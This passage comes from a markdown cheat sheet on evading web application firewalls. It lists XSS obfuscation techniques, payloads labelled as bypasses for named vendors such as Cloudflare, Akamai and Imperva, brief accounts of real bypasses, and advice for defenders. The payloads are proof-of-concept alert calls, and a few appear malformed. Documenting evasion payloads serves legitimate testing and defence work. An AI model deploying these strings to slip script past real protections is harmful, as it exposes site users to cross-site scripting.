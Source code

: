 6. **OWASP ZAP**
   - Features: Fuzzing, scripting.
   - Example: Use custom scripts to test WAF evasion.

---

## XSS Bypass Techniques and Payloads
### Common Techniques
1. **Obfuscation**
   - Example: `<img src=x onerror="/*<![CDATA[*/alert(1)/*]]>*/">`

2. **Alternate Event Handlers**
   - Example: `<div style="width:expression(alert(1))"></div>`

3. **Polyglot Payloads**
   - Example: `<script>/*</script><svg onload=alert(1)>*/`

4. **Payload Splitting**
   - Example: `<img src='1' onerror='ja'+'vascript:alert(1)'>`

5. **Manipulating Headers**
   - Example: Injecting malicious content into HTTP headers.

### WAF-Specific Payloads
- **Akamai**: `<style>@keyframes a{}b{animation:a;}</style><b/onanimationstart=prompt ${document.domain}&#x60;>`
- **Cloudflare**: `<a"/onclick=(confirm)()>Click Here!`
- **Imperva**: `<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme`
- **Incapsula**: `<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>`
- **WordFence**: `<meter onmouseover="alert(1)"`

---

## Real-World Examples of WAF Bypasses
1. **Cloudflare WAF Bypass**
   - Attackers used chunked encoding to bypass Cloudflare’s detection mechanisms.
   - Example: Splitting payloads into multiple chunks to evade signature-based detection.

2. **AWS WAF Bypass**
   - Exploiting misconfigurations in AWS WAF rules to inject malicious payloads.
   - Example: Using JSON payloads with malformed syntax to bypass detection.

3. **Imperva WAF Bypass**
   - Attackers used polyglot payloads to exploit Imperva’s rule-based detection.
   - Example: Combining HTML, JavaScript, and SQL in a single payload.

---

## Best Practices for Defenders
1. **Regular Updates**: Keep WAF signatures and rules up-to-date.
2. **Defense-in-Depth**: Use multiple layers of security (e.g., input validation, CSP).
3. **Security Testing**: Perform regular penetration testing and security assessments.
4. **Behavioral Analysis**: Implement machine learning-based behavioral analysis to detect anomalies.
5. **Logging and Monitoring**: Continuously monitor WAF logs for suspicious activity.

---